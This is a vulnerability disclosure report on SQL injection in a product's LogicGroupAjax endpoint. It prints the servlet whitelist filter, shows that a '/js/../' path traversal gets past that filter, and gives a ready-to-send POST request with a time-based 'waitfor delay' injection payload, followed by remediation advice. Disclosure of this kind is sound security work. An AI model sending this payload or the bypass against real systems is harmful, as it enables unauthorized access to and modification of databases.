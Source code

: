 

![image-20250305231656909](./assets/image-20250305231656909.png)

![image-20250305232455250](./assets/image-20250305232455250.png)

# Vulnerability Report

## Vulnerability Type

SQL Injection

## Vulnerability Description

The `logicGroupName` parameter in the `LogicGroupAjax` interface is not properly validated and sanitized, leading to a SQL injection vulnerability. An attacker can craft a malicious `logicGroupName` parameter to execute arbitrary SQL queries, potentially accessing or modifying sensitive information in the database.

## FIlter Bypass

```java
public class RootSecurityFilter implements Filter {
    private List<String> whiteList = Arrays.asList("/index.jsp", "/index_en.jsp", "/index_tai.jsp", "/images/welcomebg.jpg", "/images/welcome_button_login1.jpg", "/images/welcome_button_login.jpg", "/images/welcome_button_help1.jpg", "/images/welcome_button_help.jpg", "/images/welcome_button_config1.jpg", "/images/welcome_button_config.jpg", "/images/zh/welcomebg.jpg", "/images/zh/welcome_button_login1.jpg", "/images/zh/welcome_button_login.jpg", "/images/zh/welcome_button_help1.jpg", "/images/zh/welcome_button_help.jpg", "/images/zh/welcome_button_config1.jpg", "/images/zh/welcome_button_config.jpg", "/images/eh/welcomebg.jpg", "/images/eh/welcome_button_login1.jpg", "/images/eh/welcome_button_login.jpg", "/images/eh/welcome_button_help1.jpg", "/images/eh/welcome_button_help.jpg", "/images/eh/welcome_button_config1.jpg", "/images/eh/welcome_button_config.jpg","/js");

    public RootSecurityFilter() {
    }

    public void init(FilterConfig filterConfig) throws ServletException {
    }

    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        HttpServletRequest httpRequest = (HttpServletRequest)request;
        HttpServletResponse httpResponse = (HttpServletResponse)response;
        String servletPath = httpRequest.getServletPath();
        if (this.whiteList.contains(servletPath)) {
            chain.doFilter(request, response);
        } else {
            httpResponse.sendError(403);
        }

    }

    public void destroy() {
    }
}
```

```java
String logicGroupName = request.getParameter("logicGroupName");
if (logicGroupName == null || "".equals(logicGroupName.trim())) {
  response.sendRedirect("../loginExpire.jsp");
  return;
}
String curpage = request.getParameter("curPage");
FlowDao dao = new FlowDao();
Flow flow = dao.getAppById(logicGroupName);
if (flow == null) {
  response.sendRedirect("../loginExpire.jsp");
  return;
}
List<FlowDetail> flowDetails = dao.getAppDetailById(logicGroupName);
  String flowControlFlag = JEConfig.getValue("flowControlFlag");
WatermarkControlService watermarkControlService = SpringContextUtil.getBean(WatermarkControlService.class);
//	WatermarkFlow watermarkFlow = watermarkControlService.getWatermarkFlowBylogicGroupName(logicGroupName);
```




## POC

An attacker can test the vulnerability using the following POC:

```
POST /CDGServer3/js/../LogicGroupAjax HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded

command=isExist&logicGroupName=-1'waitfor delay '0:0:5'--
```

## Impact Scope

This vulnerability may affect all functionalities that use the `LogicGroupAjax` interface and allow user submission of the `logicGroupName` parameter.

## Remediation Suggestions

1. Strictly validate and sanitize the user input for the `logicGroupName` parameter to ensure it contains only legitimate values.
2. Use prepared statements to execute database queries to prevent SQL injection attacks.
3. Conduct regular security audits and code reviews to identify and remediate potential security vulnerabilities.
